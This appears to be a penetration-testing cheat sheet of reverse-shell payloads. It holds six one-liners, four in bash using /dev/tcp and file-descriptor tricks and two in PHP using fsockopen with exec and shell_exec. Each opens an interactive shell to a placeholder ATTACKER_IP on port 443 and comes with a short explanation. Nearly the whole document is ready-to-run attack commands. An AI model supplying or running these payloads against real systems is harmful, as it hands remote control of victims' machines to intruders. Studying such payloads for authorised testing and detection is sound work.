 ## Shell Payloads
- A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

### Normal Bash Reverse Shell

- This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.

```
 bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

### Bash Read Line Reverse Shell

-This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

```
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

### Bash With File Descriptor 196 Reverse Shell

- This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

```
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

### Bash With File Descriptor 5 Reverse Shell

- Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.

```
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

### PHP Reverse Shell Using the exec Function

- This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.

```
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

### PHP Reverse Shell Using the shell_exec Function

- Similar to the previous command, but uses the shell_exec function.

```
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
